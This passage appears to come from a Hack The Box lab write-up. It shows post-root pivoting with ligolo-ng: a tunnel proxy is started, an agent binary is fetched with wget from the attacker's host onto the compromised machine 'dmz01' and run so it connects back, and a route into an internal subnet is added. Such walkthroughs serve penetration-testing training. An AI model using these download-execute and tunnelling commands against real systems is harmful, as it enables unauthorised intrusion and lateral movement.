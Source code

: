 I got root!

### Pivoting

Let's try pivoting using `ligolo-ng`.

Set proxy:

```bash
┌──(kali㉿kali)-[~/htb/ligolo]
└─$ sudo ip tuntap add user kali mode tun ligolo 
[sudo] password for kali: 

┌──(kali㉿kali)-[~/htb/ligolo]
└─$ sudo ip link set ligolo up

┌──(kali㉿kali)-[~/htb/ligolo]
└─$ ./proxy -selfcert -laddr 0.0.0.0:443
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
WARN[0000] Using self-signed certificates               
WARN[0000] TLS Certificate fingerprint for ligolo is: 3D98ACF7CFD6E1B4BAD816FDF677D16A234EE20B593CE80C97CF39B64120F563 
INFO[0000] Listening on 0.0.0.0:443                     
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /
        /____/                          /____/                          
  Made in France ♥            by @Nicocha30!                                     
  Version: 0.7.2-alpha                                                     
ligolo-ng » INFO[0007] Agent joined.                                 name=root@dmz01 remote="10.129.36.12:54948"
ligolo-ng » 
ligolo-ng » session
? Specify a session : 1 - root@dmz01 - 10.129.36.12:54948 - 78ca86d1-5722-4cc5-92f0-e992b5b963ac

[Agent : root@dmz01] » session
? Specify a session : 1 - root@dmz01 - 10.129.36.12:54948 - 78ca86d1-5722-4cc5-92f0-e992b5b963ac

[Agent : root@dmz01] » start
[Agent : root@dmz01] » INFO[0075] Starting tunnel to root@dmz01         
```

Set Client:

```bash
root@dmz01:~# wget http://10.10.14.50:8000/agent
--2024-12-26 03:58:29--  http://10.10.14.50:8000/agent
Connecting to 10.10.14.50:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6029312 (5.8M) [application/octet-stream]
Saving to: ‘agent’

agent                   100%[============================>]   5.75M   848KB/s    in 8.6s    

2024-12-26 03:58:38 (689 KB/s) - ‘agent’ saved [6029312/6029312]

root@dmz01:~# chmod +x agent
root@dmz01:~# ./agent -connect 10.10.14.50:443 -ignore-cert
WARN[0000] warning, certificate validation disabled     
INFO[0000] Connection established                        addr="10.10.14.50:443"


┌──(kali㉿kali)-[~/htb]
└─$ sudo ip route add 172.16.0.0/16 dev ligolo     
```
